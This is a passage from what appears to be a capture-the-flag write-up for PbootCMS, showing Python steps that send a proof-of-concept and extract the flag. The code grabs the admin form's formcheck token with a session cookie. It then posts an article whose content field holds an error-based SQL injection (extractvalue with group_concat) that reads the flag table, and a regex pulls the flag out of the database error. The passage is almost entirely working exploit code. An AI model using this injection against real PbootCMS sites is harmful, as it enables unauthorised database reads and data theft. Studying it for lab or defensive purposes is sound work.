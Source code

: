 3. 发送 Poc 到指定位置，并返回数据库报错内容

   ```python
   def senExp():
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": "6666",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-15+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def getflag():
       flagg=senExp()
       flagg = re.findall(r'''~flag{(.+?)}~''', flagg)
       return "flag{"+flagg[0]+"}"
   ```
